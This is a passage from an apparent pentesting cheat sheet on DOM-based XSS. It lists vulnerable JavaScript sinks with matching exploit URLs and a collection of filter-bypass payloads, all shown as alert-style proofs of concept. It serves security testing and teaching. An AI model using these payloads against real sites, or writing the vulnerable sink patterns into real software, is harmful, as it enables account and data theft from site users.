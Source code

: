 ### DOM-based XSS

**Detection:**

```bash
# Check for DOM sinks in JavaScript
curl -s http://target.com/app.js | grep -E "innerHTML|outerHTML|document.write|eval"

# Test URL fragment
http://target.com/page#<img src=x onerror=alert('DOM XSS')>
```

**Common DOM sinks:**

```javascript
// Vulnerable code examples:

// innerHTML
document.getElementById('output').innerHTML = location.hash.substring(1);
// Exploit: http://target.com/page#<img src=x onerror=alert(1)>

// eval
eval(location.hash.substring(1));
// Exploit: http://target.com/page#alert(1)

// document.write
document.write(decodeURIComponent(location.search.substring(1)));
// Exploit: http://target.com/page?<script>alert(1)</script>

// setTimeout/setInterval
setTimeout(location.hash.substring(1), 1000);
// Exploit: http://target.com/page#alert(1)

// jQuery html()
$('#output').html(location.hash.substring(1));
// Exploit: http://target.com/page#<img src=x onerror=alert(1)>
```

### XSS Bypass Techniques

```html
<!-- Bypass tag blacklist -->
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<iframe onload=alert(1)>
<body onload=alert(1)>
<input onfocus=alert(1) autofocus>
<select onfocus=alert(1) autofocus>
<textarea onfocus=alert(1) autofocus>
<marquee onstart=alert(1)>
<details open ontoggle=alert(1)>

<!-- Bypass keyword blacklist (alert, script) -->
<img src=x onerror=confirm(1)>
<img src=x onerror=prompt(1)>
<img src=x onerror=self['ale'+'rt'](1)>
<img src=x onerror=top['ale'+'rt'](1)>
<img src=x onerror=eval('ale'+'rt(1)')>

<!-- Bypass parentheses filter -->
<script>onerror=alert;throw 1</script>
<script>import('data:text/javascript,alert(1)')</script>

<!-- Bypass without space -->
<img/src=x/onerror=alert(1)>
<svg/onload=alert(1)>
```